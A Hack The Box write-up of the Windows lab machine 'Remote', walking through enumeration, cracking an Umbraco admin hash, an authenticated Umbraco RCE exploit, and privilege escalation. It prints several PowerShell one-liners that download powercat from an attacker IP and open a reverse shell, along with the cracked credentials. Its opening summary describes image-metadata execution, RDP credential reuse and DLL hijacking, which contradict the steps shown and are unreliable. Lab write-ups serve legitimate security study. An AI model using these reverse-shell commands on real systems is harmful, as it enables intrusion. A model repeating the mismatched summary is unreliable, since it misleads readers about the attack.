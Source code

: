 ```yaml
---
title: "Remote"
date: 2024-11-03
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "remote", "htb walkthrough", "hackthebox", "writeup"]
---
```


Remote is a Windows machine simulating a corporate helpdesk portal with vulnerable file parsing logic.
Access was achieved by exploiting an insecure image processing module that allowed code execution via embedded metadata.
Enumeration of services revealed plaintext credentials in log files, reused for RDP login.
Privilege escalation involved DLL hijacking of a service running under SYSTEM.
Remote showcases how client-side uploads, insecure file parsing, and poor logging practices can be chained to full system compromise.

OS: Windows

Difficulty: Easy

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

### 80-HTTP

![screenshot](/assets/images/remote1.png)

http://10.10.10.180/umbraco

![screenshot](/assets/images/remote3.png)

http://10.10.10.180/1111

![screenshot](/assets/images/remote4.png)

### FTP

![screenshot](/assets/images/remote2.png)

### RPC

```sh
rpcclient -U '' -N 10.10.10.180
rpcclient -U'%' 10.10.10.180
rpcclient -U '' 10.10.10.180
```

![screenshot](/assets/images/remote5.png)

### 2049 NFS

```sh
sudo mount -t nfs 10.10.10.180:/site_backups /home/kali/h3llanut3lla/Remote/site_backups/
```

![screenshot](/assets/images/remote6.png)

### Finding credentials

Googling `umbraco credential files` reveals -> `/App_Data/Umbraco.sdf`

```sh
string Umbraco.sdf | grep admin
```

![screenshot](/assets/images/remote7.png)

Copy the hash and format, and save it as `admin.sha1`

![screenshot](/assets/images/remote8.png)

Crack with john.

```sh
john admin.sha1 -w=/usr/share/wordlists/rockyou.txt
```
Password found.

![screenshot](/assets/images/remote9.png)

![screenshot](/assets/images/remote10.png)

![screenshot](/assets/images/remote11.png)

## Foothold

[Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49488)

![screenshot](/assets/images/remote12.png)

```sh
python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "IEX (New-Object System.Net.Webclient).DownloadString("http://10.10.14.7/powercat.ps1");powercat -c 10.10.14.7 -p 9001 -e powershell"
```

```powershell
# using PowerShell to download powercat and execute a reverse shell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 10.10.14.7 -p 4444 -e powershell
```

The above didn't work. Used a different [public exploit](https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py).

```sh
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1');powercat -c 10.10.14.7 -p 9001 -e powershell"
```

![screenshot](/assets/images/remote13.png)

![screenshot](/assets/images/remote14.png)

## Privilege Escalation

```sh
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Running services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

![screenshot](/assets/images/remote15.png)

[TeamViewer 11.0.65452 (x64) - Local Credentials Disclosure](https://www.exploit-db.com/exploits/40342)

![screenshot](/assets/images/remote17.png)

### SeImpersonate

Used PrintSpoofer to abuse SeImpersonate privilege. 

![screenshot](/assets/images/remote18.png)
